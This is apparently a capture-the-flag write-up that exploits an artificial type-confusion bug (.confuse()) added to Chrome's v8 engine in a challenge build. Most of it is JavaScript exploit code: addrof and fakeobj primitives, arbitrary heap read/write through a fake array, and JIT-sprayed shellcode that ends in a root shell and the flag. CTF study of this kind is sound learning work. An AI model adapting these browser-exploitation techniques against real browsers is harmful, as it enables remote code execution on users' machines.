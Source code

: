 # E-Corp Part 2 
![challenge](challenge.png)
### Description:
##### Last year, your internship at E-Corp (Evil Corp) ended with a working router RCE exploit. Leadership was very impressed. As a result, we chose to extend a return offer. We used your exploit to get a MiTM position on routers around the world. Now, we want to be able to use that MiTM position to exploit browsers to further our world domination plans! This summer, you will need to exploit Chrome!

##### One of our vulnerability researchers has discovered a new type confusion bug in Chrome. It turns out, a type confusion can be evoked by calling .confuse() on a PACKED_DOUBLE_ELEMENTS or PACKED_ELEMENTS array. The attached poc.js illustrates an example. You can run it with ./d8 ./poc.js. Once you have an RCE exploit, you will find a file with the flag in the current directory. Good luck and have fun!

##### By Aadhithya (@aadhi0319 on discord)

### Overview:
This is a simple v8 challenge that provides us with a very powerful type confusion bug in the form of a new array method called `.confuse()`, which when called will switch a `PACKED_DOUBLE_ELEMENTS` array to a `PACKED_ELEMENTS` one and vice-versa.

Every array in javascript has a specific type tied to it, i'll briefly describe the ones relevant to us:
- `PACKED_DOUBLE_ELEMENTS` -> array consisting of **raw 64-bit doubles** (very useful for exploitation!) with no holes between the elements (hence the `PACKED`)
- `PACKED_ELEMENTS` -> array consisting of **v8 pointers** to other JS objects, with no holes between the elements (hence the `PACKED`)

#### A brief tangent on v8 pointers:
Pointers in the v8 heap are **"compressed"**, which means they only store a 32-bit offset which get summed to the heap base. \
They are also **"tagged"**, which means they are stored with their LSB set (aka pointer + 1 ), to distinct them from Smis, a primitive type used by v8 to store small integers.

### Solution:
So what can we do with our type confusion? \
If we convert a `PACKED_ELEMENTS` array to a `PACKED_DOUBLE_ELEMENTS` v8 will interpret the object pointers inside the array as 64-bit doubles, therefore leaking their addresses to us.

This allows us to very easily build an `AddressOf` primitive, which we can use to leak the address of an object in the v8 heap.

```js
function GetAddressOf(x) {
    arr = [x];
    arr.confuse()
    
    //NOTE: ftoi() converts a double into an integer, see the full exploit for details
    return (ftoi(arr[0])&0xffffffffn) - 1n;
}
```

Doing the opposite allows to create a `FakeObj` primitive, where we make v8 treat an arbitrary number as a legitimate object pointer.

```js
function GetFakeObject(x) {   
    //NOTE: itof() converts an integer into a duble, see the full exploit for details
    arr = [itof(x)];
    arr.confuse();
    return arr[0];
}
```

These two primitives are all we need to achieve arbitrary read/write inside the v8 heap: \
Our plan is to build two objects `arr_arbrw` and `corrupter_arr`, the last one is a carefully crafted fake object that allows us to overwrite the elements pointer of the `arr_arbrw` array, giving us arb r/w by reading/writing the elements of said array.

```js
let arr_arbrw = [0.1, 0.2, 0.3];

let fake_jsarr = [
    itof((EMPTY_PROPERTIES_ADDR << 32n) | BigInt(MAP_JSARR_PACKED_DOUBLES_ADDR)),
    itof(0x4343434343434343n) // PLACEHOLDER
];

let FAKE_JSARR = GetAddressOf(fake_jsarr)+1n;
let FAKE_JSARR_ELEMENTS = FAKE_JSARR + 0x54n
let ARR_ARBRW_ADDR = GetAddressOf(arr_arbrw)+1n;
console.log("FAKE: 0x"+(FAKE_JSARR_ELEMENTS).toString(16));
console.log("ARR: 0x"+(ARR_ARBRW_ADDR).toString(16));

fake_jsarr[1] = itof(((FAKE_JSARR_SZ * 2n) << 32n) | BigInt(ARR_ARBRW_ADDR));
let corrupter_arr = GetFakeObject(FAKE_JSARR_ELEMENTS);

function v8_write64(where, what) {
    corrupter_arr[0] = itof((0x6n << 32n) | BigInt(where - 8n));
    arr_arbrw[0] = itof(what);
}

function v8_read64(where) {
    corrupter_arr[0] = itof((0x6n << 32n) | BigInt(where - 8n));
    return ftoi(arr_arbrw[0]);
}
```

Now that we have achieved full memory corruption inside the v8 heap we only need a way to hijack RIP, there were many possible ways but i opted for JIT-Spraying a Turbofan compiled function as seen in this [POC](https://github.com/github/securitylab/blob/main/SecurityExploits/Chrome/v8/CVE_2023_3420/poc.js).

```js
////https://github.com/github/securitylab/blob/main/SecurityExploits/Chrome/v8/CVE_2023_3420/poc.js
function func() {
    return [1.9553825422107533e-246, 1.9560612558242147e-246, 1.9995714719542577e-246, 1.9533767332674093e-246, 2.6348604765229606e-284];
}
for (let i = 0; i < 200000; i++) func(0);
```

First we run the function a lot of times to mark it as hot and let turbofan optimize it into assembly.

```js
var funcAddr = GetAddressOf(func);
console.log("func address: 0x" + funcAddr.toString(16));

var code = v8_read64(funcAddr + 0x8n) >> 40n;
console.log("code address: 0x" + code.toString(16));

var jitAddr = v8_read64(code + 0x10n) & 0xffffffffn;
console.log("jit address: 0x" + jitAddr.toString(16));

v8_write64(code + 0x10n, ((jitAddr + 0x7an) << 32n));
console.log("new jit address: 0x" + (jitAddr + 0x7an).toString(16));
```

Then we slightly modify the offset of our JIT function such that it will jump into the shellcode we wrote inside the float values, we have 6 bytes we can use for instructions and 2 bytes we have to use to jump to the next float. \
Thankfully we don't have to worry about that if we use a ready-made function from a POC :p.

```js
func();
```

The last thing we need to is to call the function to trigger our shellcode and enjoy our shell.

```bash
$ python3 exploit.py 
[+] Opening connection to challenge.utctf.live on port 6128: Done
[*] Switching to interactive mode
 
Running. Good luck! 
FAKE: 0x434b9
ARR: 0x43445
func address: 0x1d3e08
code address: 0x2403b1
jit address: 0xe0000f31
new jit address: 0xe0000fab
$ whoami
root
$ cat /c18eddd76c9b90e6fe205871db8cbff5
utflag{tH3_aRt_0f_c0nfU5!On}
```

Flag: ```utflag{tH3_aRt_0f_c0nfU5!On}```
